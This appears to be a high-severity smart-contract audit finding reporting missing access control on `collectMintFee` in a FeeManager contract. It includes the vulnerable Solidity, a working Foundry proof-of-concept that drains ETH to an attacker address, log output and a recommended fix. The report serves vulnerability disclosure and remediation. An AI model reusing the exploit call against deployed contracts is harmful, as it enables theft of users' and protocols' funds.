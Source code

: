 Sleepy Cider Cormorant

high

# Unprotected `collectMintFee` function that leads to stealing funds from `FeeManager`

## Summary
A user can steal funds stored in `FeeManager` because `collectMintFee` has no access control.

## Vulnerability Detail
The function `collectMintFee` generally should be called by `Edition` contract during the minting. However, this function can be called by anyone with parameters specified by the attacker as there are no restrictions on the `msg.sender`.

When there are funds on `FeeManager` (and they will be there as the current implementation transfers some funds during minting to this contract) an attacker can steal them by calling this function with the `FeeManager` address as `payer_` and their address as `referrer_`.

```solidity
    function collectMintFee(
        IEdition edition_,
        uint256 tokenId_,
        uint256 amount_,
        address payer_,
        address referrer_
    ) external payable {
        _collectMintFee(
            edition_, tokenId_, amount_, payer_, referrer_, getMintFee(edition_, tokenId_, amount_)
        );
    }
```

**Important:** The funds on FeeManager contract can appear from different sources, including direct call because it has receive() function and the withdraw() function that is used by the admin to rescue tokens.

Scenario showed in POC:
1. FeeManager contract is empty.
2. Alice mints 100 tokens and pay fees.
3. FeeManager contract balance is 18.94 eth.
4. Attacker calls the `collectMintFee` with the following values `feeManager.collectMintFee{value: 0 ether}(edition, tokenId, 1000, address(feeManager), attacker);`
5. FeeManager contract balance decreased now to 8.34 eth, the attacker balance increased by 0.3 eth.

**Note:** The attacker can create their own edition and position themselves as the recipient of a high fee in it. This way, they will be able to collect even more funds per transaction.

## POC results
```bash
[PASS] test_POC_stealing_from_FeeManager() (gas: 234622)
Logs:
  
  START
  Alice balance:  100000000000000000000
  Attacker balance:  100000000000000000000
  FeeManager balance:  0
  Edition balance:  0
  
  
  AFTER ALICE MINTS
  Alice balance:  80000000000000000000
  Bob balance:  100000000000000000000
  FeeManager balance:  18940000000000000000
  Edition balance:  0
  
  
  AFTER ATTACK
  Alice balance:  80000000000000000000
  Bob balance:  100300000000000000000
  FeeManager balance:  8340000000000000000
  Edition balance:  0
```

## POC file

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Test, console} from "forge-std/Test.sol";

import {Edition} from "src/editions/Edition.sol";
import {FeeManager} from "src/fees/FeeManager.sol";
import {TitlesGraph} from "src/graph/TitlesGraph.sol";
import {
    Comment,
    Node,
    NodeType,
    NotOpen,
    Metadata,
    Strategy,
    Target,
    Unauthorized
} from "src/shared/Common.sol";

contract MockSplitFactory {
    struct Split {
        address[] recipients;
        uint256[] allocations;
        uint256 totalAllocation;
        uint16 distributionIncentive;
    }

    function createSplit(Split memory, address, address) external view returns (address) {
        return address(this);
    }

    receive() external payable {}
}

contract MockGraph {
    function createEdge(Node memory, Node memory, bytes memory) external {}
}

contract EditionTest is Test {
    Edition public edition;
    FeeManager public feeManager;
    TitlesGraph public graph;

    function setUp() public {
        edition = new Edition();
        feeManager = new FeeManager(address(0xdeadbeef), address(0xc0ffee), address(new MockSplitFactory()));
        graph = new TitlesGraph(address(this), address(this));

        edition.initialize(
            feeManager,
            graph,
            address(this),
            address(this),
            Metadata({label: "Test Edition", uri: "ipfs.io/test-edition", data: new bytes(0)})
        );

        edition.publish(
            address(1), // creator
            1000, // maxSupply
            0, // opensAt
            0, // closesAt
            new Node[](0), // attributions
            Strategy({
                asset: address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE),
                mintFee: 0.01 ether,
                revshareBps: 2500, // 25%
                royaltyBps: 250 // 2.5%
            }),
            Metadata({label: "Best Work Ever", uri: "ipfs.io/best-work-ever", data: new bytes(0)})
        );

        // Normally done by the TitlesCore, but we're testing in isolation
        feeManager.createRoute(edition, 1, new Target[](0), address(0));
    }

    function test_POC_stealing_from_FeeManager() public {
    // Scenario setup
    address alice = makeAddr("alice");
    address attacker = makeAddr("attacker");
    vm.deal(alice, 100 ether);
    vm.deal(attacker, 100 ether);
    uint256 tokenId = 1;
    uint256 amountSingle = 100;

    console.log("");
    console.log("START");
    console.log("Alice balance: ", alice.balance);
    console.log("Attacker balance: ", attacker.balance);
    console.log("FeeManager balance: ", address(feeManager).balance);
    console.log("Edition balance: ", address(edition).balance);
    console.log("");

    // Alice mints her tokens
    vm.startPrank(alice);
    edition.mint{value: 20 ether}(alice, tokenId, amountSingle, address(0), new bytes(0));
    vm.stopPrank();

    console.log("");
    console.log("AFTER ALICE MINTS");
    console.log("Alice balance: ", alice.balance);
    console.log("Bob balance: ", attacker.balance);
    console.log("FeeManager balance: ", address(feeManager).balance);
    console.log("Edition balance: ", address(edition).balance);
    console.log("");

    vm.startPrank(attacker);
    feeManager.collectMintFee{value: 0 ether}(edition, tokenId, 1000, address(feeManager), attacker);
    vm.stopPrank();

    console.log("");
    console.log("AFTER ATTACK");
    console.log("Alice balance: ", alice.balance);
    console.log("Bob balance: ", attacker.balance);
    console.log("FeeManager balance: ", address(feeManager).balance);
    console.log("Edition balance: ", address(edition).balance);
    console.log("");


    assertEq(edition.balanceOf(alice, tokenId), amountSingle, "User1 token balance incorrect");
}


}

```

## Impact
The user can steal funds from `FeeManager`.

## Code Snippet
https://github.com/sherlock-audit/2024-04-titles/blob/c9d16782a7d3c15c7a759f22c9e0552d5e777ed7/wallflower-contract-v2/src/fees/FeeManager.sol#L183
https://github.com/sherlock-audit/2024-04-titles/blob/c9d16782a7d3c15c7a759f22c9e0552d5e777ed7/wallflower-contract-v2/src/fees/FeeManager.sol#L202

## Tool used

Manual Review

## Recommendation

The `collectMintFee` function should be callable only by `Edition` contract or `owner`. Add appropriate checks as modifiers.
